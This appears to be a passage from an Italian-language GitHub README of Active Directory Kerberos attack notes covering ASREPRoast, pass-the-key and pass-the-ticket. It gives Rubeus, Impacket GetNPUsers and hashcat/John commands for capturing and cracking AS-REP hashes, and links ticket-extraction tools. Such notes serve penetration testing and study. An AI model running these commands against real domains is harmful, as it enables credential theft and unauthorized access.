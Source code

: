 ![image](https://user-images.githubusercontent.com/110602224/199336915-71cd072d-8f1c-473e-b905-75580c98dc15.png)


2. **ASREPRoast**  
Questa tecnica mira a compromettere gli utenti per i quali non è richiesta la preautenticazione di Kerberos.  
Si invia una richiesta AS_REQ al KDC e il messaggio AS_REP di risposta si forza offline.  
![image](https://user-images.githubusercontent.com/110602224/199339125-84552a44-8f7f-445e-8534-57c18e2eae68.png)

Comando da Windows usando Rubeus: **.\ Rubeus.exe asreproast /format:hashcat /outfile:asreproast.hashes**  
![image](https://user-images.githubusercontent.com/110602224/199339358-6ee51b57-ee93-411e-939d-5f8d5b5d8cc8.png)

Comando da Linux usando [GetNPUsers.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py): **GetNPUsers.py [Domain/User] -request -format hashcat -outputfile asreproast.hashes**  
![image](https://user-images.githubusercontent.com/110602224/199339696-eff544af-301d-4515-8db3-f6b3af442675.png)

Le hash ottenute sono forzabili usando JohnTheRipper o Hashcat:  
- **john \[Nome file con lista hash\] --wordlist=\[Wordlist\]**
- **hashcat -m 18200 -force -a 0 \[Nome file con lista hash\] \[Wordlist\]**  


3. **Over-pass-the-hash / Pass the Key (PTK)**  
Questa tecnica è sfruttabile se NTLM è disattivato in quanto si sfrutta l'hash NTLM per ottente un TGT per ottenere accesso alle risorse per cui l'utente "sfruttato" ha privilegi di accesso.  

![image](https://user-images.githubusercontent.com/110602224/199340794-b4dff28c-43bc-4662-bcd2-f00c5650db4d.png)

![image](https://user-images.githubusercontent.com/110602224/199340897-597cc6c6-1e5f-486f-8f2d-df24a63dd0e6.png)

Link:https://github.com/sosdave/KeyTabExtract  
![image](https://user-images.githubusercontent.com/110602224/199341184-dc6692c8-0f3b-471b-a6b2-ea0cc2863f87.png)

Link: https://github.com/its-a-feature/bifrost  
![image](https://user-images.githubusercontent.com/110602224/199341707-9a0d5d5a-59e2-4af7-88bd-e607314929dd.png)


4. **Pass The Ticket (PTT)**  
Tecnica simile a Pass-The-Key. In questo caso il ticket è estratto dall'host nel quale l'utente è autenticato.  
![image](https://user-images.githubusercontent.com/110602224/199342588-5a77ae37-469e-45e6-a4ab-7f055f1ff1e4.png)

![image](https://user-images.githubusercontent.com/110602224/199342670-4c9ee781-51e6-4a47-aea1-35f2fd36180b.png)

Link: https://github.com/TarlogicSecurity/tickey  
Link: https://web.archive.org/web/20190626085621/https://www.delaat.net/rp/2016-2017/p97/report.pdf  

![image](https://user-images.githubusercontent.com/110602224/199343354-3815c2d9-8296-45be-8234-bc9c7632cecb.png)

![image](https://user-images.githubusercontent.com/110602224/199343473-0e7fb1ca-2c81-4aa5-a6ff-dae6ba45e6f1.png)
